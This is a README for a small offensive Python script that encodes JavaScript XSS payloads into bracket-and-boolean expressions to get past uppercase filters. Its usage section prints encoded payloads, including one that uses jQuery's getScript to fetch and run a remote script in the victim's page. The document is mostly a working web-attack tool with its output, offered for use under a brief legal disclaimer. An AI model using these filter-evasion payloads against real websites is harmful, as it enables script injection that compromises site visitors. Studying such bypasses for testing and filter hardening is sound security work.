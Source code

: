 # XSS-ToUpperBypass
A little python script that encode JS XSS payload to bypass a to Upper protection

## Credits
Based on the excellent work of Master SEC : https://master-sec.medium.com/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce

## Usage
```bash
$ python ./ToUpperBypass.py                   
Usage: python ./ToUpperBypass.py '<string to encode>'

$ python ./ToUpperBypass.py 'a+l+e+r+t("XSS")' 
Result :
(![]+{})[1]+(![]+[])[2]+([]+{})[4]+(!![]+[])[1]+([]+{})[6]("XSS")

$ python ./ToUpperBypass.py '[][f+i+l+l][c+o+n+s+t+r+u+c+t+o+r](s+e+t+"T"+i+m+e+o+u+t+"("+f+u+n+c+t+i+o+n+"(){ $."+g+e+t+"S"+c+r+i+p+t+"(\""//TEST/"+h+a+n+d+l+e+"."+j+s+"\"")(); }, 3000);")();'
Result :
[][([][1]+[])[4]+([][1]+[])[5]+(![]+[])[2]+(![]+[])[2]][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]]((![]+[])[3]+([]+{})[4]+([]+{})[6]+"T"+([][1]+[])[5]+(22)[([]+{})[6]+([]+{})[1]+"S"+([]+{})[6]+(!![]+[])[1]+([][1]+[])[5]+([][1]+[])[1]+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]](36)+([]+{})[4]+([]+{})[1]+([][1]+[])[0]+([]+{})[6]+"("+([][1]+[])[4]+([][1]+[])[0]+([][1]+[])[1]+([]+{})[5]+([]+{})[6]+([][1]+[])[5]+([]+{})[1]+([][1]+[])[1]+"(){ $."+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]+([]+{})[4]+([]+{})[6]+"S"+([]+{})[5]+(!![]+[])[1]+([][1]+[])[5]+(25)[([]+{})[6]+([]+{})[1]+"S"+([]+{})[6]+(!![]+[])[1]+([][1]+[])[5]+([][1]+[])[1]+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]](36)+([]+{})[6]+"(\""//TEST/"+(17)[([]+{})[6]+([]+{})[1]+"S"+([]+{})[6]+(!![]+[])[1]+([][1]+[])[5]+([][1]+[])[1]+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]](36)+(![]+{})[1]+([][1]+[])[1]+([][1]+[])[2]+(![]+[])[2]+([]+{})[4]+"."+([]+{})[3]+(![]+[])[3]+"\"")(); }, 3000);")();
```

## Contributing
Contributions are welcome! If you find a bug or have a feature request, please create an issue or submit a pull request.

## Legal disclaimer
Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
